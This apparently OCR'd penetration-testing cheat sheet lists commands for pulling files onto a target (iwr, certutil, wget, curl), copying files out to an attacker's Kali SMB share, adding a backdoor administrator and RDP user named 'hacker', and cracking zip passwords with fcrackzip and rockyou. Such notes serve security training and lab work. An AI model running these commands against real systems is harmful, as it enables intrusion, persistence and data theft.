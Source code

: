 ```powershell
iwr -uri URL -Outfile file
```

```bash
certutil -urlcache -split -f "URL" outputfilename
```

```bash
copy \\kali.IP\share\file C:\temp\file
```

**Downloading on Linux**

```bash
wget URL -O OUTPUT_FILE
```

```bash
curl [http://IP:PORT/file](http://IP:PORT/file) > <OUTPUT_FILE>
```

#### Windows to Kali

```bash
# Kali
impacket-smbserver -smb2support SHARE_NAME .
```

```bash
# Windows
copy file \\KaliIP\SHARE_NAME\
```

#### Adding Users

#### Windows

```bash
net user hacker hacker123 /add
net localgroup Administrators hacker /add
net localgroup "Remote Desktop Users" hacker /ADD
```

#### Linux

```bash
adduser username  #Interactive
useradd username
useradd -u UID -g GID username  #UID can be something new than existing
```

#### Password-Hash Cracking

**Hash Analyzer:** [https://www.tunnelsup.com/hash-analyzer/](https://www.tunnelsup.com/hash-analyzer/) fcrackzip fcrackzip

#### fcrackzip

```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt [file.zip](http://file.zip)  #Cracking zip files
```
